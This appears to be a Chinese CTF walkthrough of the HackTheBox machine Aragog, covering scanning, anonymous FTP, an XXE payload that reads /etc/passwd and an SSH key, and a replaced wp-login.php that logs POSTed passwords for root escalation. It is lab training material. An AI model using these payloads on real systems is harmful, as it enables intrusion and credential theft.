










# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.78 -oA scans/ports
...
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
...
root@kali# nmap -sT -sC -sV -O -p21,22,80 10.10.10.78 -oA scans/details
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21 16:30 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
...
```

## 目录FUZZ

```
root@kali# gobuster -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
=====================================================
/index.html (Status: 200)
/hosts.php (Status: 200)
=====================================================
```

## WEB页面

### http://10.10.10.78/hosts.php



我们需要弄清楚如何与它交互。

# 漏洞检测与利用

## port 21: ftp

有匿名登录到 ftp 服务

```
root@kali# ftp Anonymous@10.10.10.78 
Connected to 10.10.10.78.
220 (vsFTPd 3.0.3)
Name (10.10.10.78:root): ftp
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 ftp      ftp            86 Dec 21 16:30 test.txt
226 Directory send OK.
ftp> get test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for test.txt (86 bytes).
226 Transfer complete.
86 bytes received in 0.01 secs (16.0092 kB/s)
```

test.txt:

```
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```

## XXE	

我恍然大悟，xml文件可以用于这个网站，burpsuite抓取包，结合之前test.php的xml，重新发包。



根据上面显示，增加xxe攻击代码，构造语句，得出下面测试代码

```
<?xml version="1.0" ?>
<!DOCTYPE  XXE [<!ENTITY test SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&test;</subnet_mask>
    <test></test>
</details>
```



回显中这一条信息 florian:x:1000:1000:florian,,,:/home/florian:/bin/bash 在home目录下用户是florian 打印该用户标志



读取靶机的id_rsa信息，获得密匙，ssh登录



将得到的密钥复制到本地给权限600然后ssh登录到目标靶机



# 提权

查看目标靶机的系统内核和所使用的操作系统



确认系统架构之后开始监控下系统进程运行的情况，这里使用pspy这个款工具

> https://github.com/DominicBreuker/pspy
> 
> pspy是一个命令行工具，它可以在没有Root权限的情况下，监控Linux进程。黑客可以利用它来查看其他用户的计划任务工作(cron job)等，该工具也非常适合技术人员在CTF（Capture The Flag）中枚举Linux系统，同样该工具也会很好地向我们展示为什么在命令行上将密码作为参数传递是一个不好的选择。
> 
> 该工具会收集来自procfs扫描的信息，放置在文件系统选定部分的Inotify观察器会触发这些扫描功能以捕获Linux进程信息。



确认每分钟都有计划任务在执行目标靶机的登录功能，查看下网站根目录发现存在dev_wiki这个目录。

```
florian@aragog:~$ cd /var/
florian@aragog:/var$ ls
backups  crash  lib    lock  mail     opt  snap   tmp
cache    ftp    local  log   metrics  run  spool  www
florian@aragog:/var$ cd www
florian@aragog:/var/www$ ls
html
florian@aragog:/var/www$ cd html
florian@aragog:/var/www/html$ ls
dev_wiki  hosts.php  index.html  zz_backup
florian@aragog:/var/www/html$ cd dev_wiki/
florian@aragog:/var/www/html/dev_wiki$ ls
index.php        wp-blog-header.php    wp-includes        wp-settings.php
license.txt      wp-comments-post.php  wp-links-opml.php  wp-signup.php
readme.html      wp-config.php         wp-load.php        wp-trackback.php
wp-activate.php  wp-content            wp-login.php       xmlrpc.php
wp-admin         wp-cron.php           wp-mail.php
```

在这里发现wordpress框架文件 访问http://10.10.10.78/dev_wiki/index.php 网页不正常，而且10.10.10.78并没有进行域名解析 重定向将aragog添加到/etc/hosts 文件中， 在自己的命令端执行。

```
root@kali# echo '10.10.10.78 aragog'  >> /etc/hosts
```

直接修改上述计划任务执行的wp-login.php文件，因为目录dev_wiki是777权限，所有人都可以进行修改，修改成如下代码

```
<?php
file_put_contents("bmfx.log", print_r($_POST, true));
?>
```

最终得到密码



使用su直接切换至root用户

